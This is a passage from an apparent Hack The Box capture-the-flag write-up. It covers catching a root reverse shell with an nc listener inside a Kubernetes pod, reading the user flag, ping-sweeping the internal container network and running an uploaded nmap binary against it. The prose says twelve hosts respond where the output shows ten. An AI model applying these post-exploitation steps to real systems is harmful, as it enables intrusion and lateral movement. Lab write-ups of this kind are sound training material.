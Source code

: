 ## Getting a shell back
```console
root@kali:~/Desktop/htb/boxes/unobtainium# nc -nvlp 53
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.10.235.
Ncat: Connection from 10.10.10.235:47534.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@webapp-deployment-5d764566f4-h5zhw:/usr/src/app# id
id
uid=0(root) gid=0(root) groups=0(root)
```
We are running as root inside a container.

## Reading user.txt
```console
root@webapp-deployment-5d764566f4-h5zhw:~# cat /root/user.txt 
594a46************6d10bd
```
# Privilege Escalalation
Since all the things point to kubernates, we must be inside a pod of a kubernates cluster. But I have no idea at the time I was solving the box. So, I first tried to enumerate the network that I was in to look for other docker containers.
## Additional docker containers
```console
root@webapp-deployment-5d764566f4-h5zhw:/opt/yarn-v1.22.5# for i in `seq 1 12`; do ping -c 1 172.17.0.$i; done | grep 64
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=0.068 ms
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.033 ms
64 bytes from 172.17.0.3: icmp_seq=1 ttl=64 time=0.028 ms
64 bytes from 172.17.0.4: icmp_seq=1 ttl=64 time=0.032 ms
64 bytes from 172.17.0.5: icmp_seq=1 ttl=64 time=0.010 ms
64 bytes from 172.17.0.6: icmp_seq=1 ttl=64 time=0.038 ms
64 bytes from 172.17.0.7: icmp_seq=1 ttl=64 time=0.033 ms
64 bytes from 172.17.0.8: icmp_seq=1 ttl=64 time=0.036 ms
64 bytes from 172.17.0.9: icmp_seq=1 ttl=64 time=0.032 ms
64 bytes from 172.17.0.10: icmp_seq=1 ttl=64 time=0.025 ms
```
We get a response from 12 IPs and among them one must be a host and other 11 must be the docker containers. So I decided to upload a static nmap binary and scan for open ports on all of those containers.

## Nmap Scan
```console
root@webapp-deployment-5d764566f4-h5zhw:~# ./nmap -n   172.17.0.1-10 -p 3000   | grep open
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
3000/tcp open  unknown
3000/tcp open  unknown
3000/tcp open  unknown
3000/tcp open  unknown
3000/tcp open  unknown
3000/tcp open  unknown
```
- 172.17.0.3-6  and 172.17.0.9-10 has only port 3000 open which is running the node server.
- 172.17.0.7 has no ports open.
- 172.17.0.2 has port 5000 open.